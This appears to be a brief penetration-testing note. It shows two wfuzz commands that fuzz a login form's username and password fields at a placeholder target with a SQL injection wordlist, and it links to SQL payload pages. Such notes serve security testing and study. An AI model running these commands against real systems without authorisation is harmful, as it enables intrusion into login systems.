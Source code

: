 ```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```
[[SQLText]]
[[SQL Payload]]